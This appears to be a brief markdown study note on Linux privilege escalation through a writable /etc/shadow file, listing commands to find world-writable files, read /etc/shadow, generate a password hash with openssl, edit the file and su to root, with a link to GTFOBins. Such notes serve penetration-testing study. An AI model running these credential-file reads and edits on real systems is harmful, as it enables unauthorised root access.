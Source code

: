 # Linux privilege escalation - weak permissions (etc/shadow)

```text
find / -not -type l -perm -o+w
cat /etc/shadow
openssl passwd -1 -salt abc password
```

```text
vim /etc/shadow
```

![etc-shadow](../../../../Media/Linux-Privilege-Escalation/etc-shadow.png)

```text
su
Password:
```

see here : <https://gtfobins.github.io/>